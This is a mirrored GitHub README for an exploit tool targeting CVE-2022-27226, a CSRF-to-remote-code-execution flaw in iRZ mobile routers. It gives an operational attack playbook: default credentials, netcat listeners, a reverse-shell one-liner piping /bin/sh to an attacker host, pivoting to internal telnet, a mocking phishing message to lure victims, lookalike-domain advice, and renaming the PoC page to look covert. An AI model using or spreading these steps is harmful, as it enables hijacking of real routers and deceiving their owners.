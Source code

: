 # ez-iRZ

Exploit for CVE-2022-27226

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/SakuraSamuraii](https://github.com/SakuraSamuraii) |
| Url      | [https://github.com/SakuraSamuraii/ez-iRZ](https://github.com/SakuraSamuraii/ez-iRZ)                                               |
| Stars    | 14                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2022-27226* cves* exploits* sakurasamuraii

</details>

## Readme

# ez-iRZ
Exploit for CVE-2022-27226

Cross Site Request Forgery to Remote Code Execution in iRZ Mobile Routers

# Credits

<--Vulnerability Discovery-->

John Jackson

Chris Mack --- [https://github.com/0xHalcyon]

<--Exploit Development-->

Stephen Chavez --- [https://github.com/redragonx/]

Robert Willis

# Description 
A CSRF issue on iRZ Mobile Routers through 2022-03-16 allows a threat actor to create a crontab entry in the router administration panel.
The cronjob will consequently execute the entry on the threat actor's defined interval, leading to remote code execution, allowing
the threat actor to gain file system access. In addition, if the router's default credentials aren't rotated or a threat actor
discovers valid credentials, remote code execution can be achieved without user interaction.

# Pre-execution notes:
Starting two netcat listeners prior to attempting to catch a shell is pertinent, this is because the crontab, when run, will repeat the same
cronjob multiple times and your shell will die on the next cycle. You can't utilize nohup because the busybox env is fairly restrictive,
and alternatively you could modify the exploit with a different crontab entry interval, however the best way to defeat this without worrying
about crontab interval is two utilize multiple listeners for the first reverse shell catch. 

It was discovered that in most cases, the routers don't have the telnet port open externally - however, once gaining remote code execution, you
can utilize telnet to fix TTY *for the most part*. You need to have credentials to do so. If you're utilizing the full CSRF to RCE chain, we 
would recommend that you build a more comprehensive CSRF poc template that records the user's login event or the headers which may contain
the basic authorization header that is translated in the script. 

# Executing Post Authenticated Remote Code Execution Module (With Credentials)
Default credentials for these routers are typically root:root or admin:admin. If you have credentials, run:
```
python cve.py
```
Follow the instructions which are quite simple, then start two netcat listeners on two seperate ports.
```
nc -lvp 443
nc -lvp 5000
```
When you catch a reverse shell in the first listener, rerun the reverse shell one liner to gain a persistent shell:
```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost_ip} {second_nc_listener_port} >/tmp/f
```
Finally, if you have credentials (which you should if you're using this portion of the module) - attempt to pivot to the internally restricted telnet service:
```
telnet 0.0.0.0
```
"But what if telnet is exposed externally?" Then login to the fucking router with the credentials, dumbass. 

# Executing CSRF to RCE Module (No Credentials)
The instructions for this module are nearly the same as the Post Auth RCE instructions. With the major difference being that you don't have credentials.

First and foremost, to exploit efficiently, you have to understand how this works. CSRF requires user interaction, meaning that you'll need to social engineer
someone. There are two potentional scenarios: User is logged in when they click the proof of concept button, or user isn't logged in. If they are already
authenticated to the router, the POST request to make the cronjob will be sent to the API and the user will see a blank page. If they aren't logged in,
the user will get a basic authentication prompt - and conveniently enough, the basic auth popup will have the IP of the victim router, if they enter their
credentials it sends the POST request to the API. 

We recommend attempting to buy a similar domain if the victim router is hosted on a subdomain or finding a provider
with the same subnet ranges for servers if it's a high-priority target. Refining the CSRF PoC might be work it for a priority target. 

Run the script
```
python cve.py
```
Follow the instructions, in the script, it will then generate a csrf template for you. We recommend naming it something a little more covert.
```
mv poc.new.html index.html
```
Host the PoC on your server, preferably on the same port as the victim router.
```
python3 -m http.server 80
```
Take the link and send it to the victim, ensuring that you append the name of the PoC file to the end of the url:
```
Hi sweetie, can you login to router pwease:
http://your-ip-in-the-united-states-bcuz-you-didnt-take-my-advice/index.html
```




## Get the content

```
git clone https://github.com/SakuraSamuraii/ez-iRZ
cd ez-iRZ
```

{% embed url="https://github.com/SakuraSamuraii/ez-iRZ" %}

<figure><img src="https://avatars.githubusercontent.com/u/90020213?v=4" alt=""><figcaption><p>SakuraSamuraii</p></figcaption></figure>
